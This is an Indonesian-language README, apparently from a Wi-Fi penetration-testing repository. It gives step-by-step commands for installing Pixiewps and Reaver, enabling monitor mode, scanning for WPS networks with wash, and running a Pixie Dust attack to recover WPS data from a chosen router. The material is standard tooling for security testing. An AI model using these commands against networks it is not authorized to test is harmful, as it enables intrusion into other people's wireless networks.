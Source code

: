 # Pixiewps

![Pixiewps](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/pixiewps/img/pixiewps.jpg)

## Instalasi

Kali Linux:

1. Menggunakan package manager (`apt`):

   ```
   sudo apt-get update
   sudo apt install pixiewps aircrack-ng reaver
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install build-essential libssl-dev git
   git clone https://github.com/wiire-a/pixiewps
   cd pixiewps
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

**1. Scan Wi-Fi WPS:**

```
sudo wash -i [interface]
```

**2. Pilih Target**

Pastikan status `Lck` (Lock) tidak menunjukkan `YES`. Jika `YES`, artinya fitur WPS sedang terkunci (tidak bisa diserang).

**3. Jalankan Serangan:**

1. Jalankan Reaver untuk mengumpulkan data WPS:

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -K -vv
   ```
2. Jalankan Pixiewps dengan data yang didapat:

   ```
   sudo pixiewps -e [pke] -r [pkr] -s [e-hash1] -z [e-hash2] -a [authkey] -n [e-nonce]
   ```

   Keterangan:
   - `-e [pke]` : Enrollee Public Key -> len = 192
   - `-r [pkr]` : Registrar Public Key -> len = 192
   - `-s [e-hash1]` : Enrollee Hash1 -> len = 32
   - `-z [e-hash2]` : Enrollee Hash2 -> len = 32
   - `-a [authkey]` : Authentication Session Key -> len = 32
   - `-n [e-nonce]` : Enrollee Nonce -> len = 16

## Video Demonstrasi

[https://youtu.be/E1ERlb9HetY?si=5BftM5l4yPF3Ti0e](https://youtu.be/E1ERlb9HetY?si=5BftM5l4yPF3Ti0e)
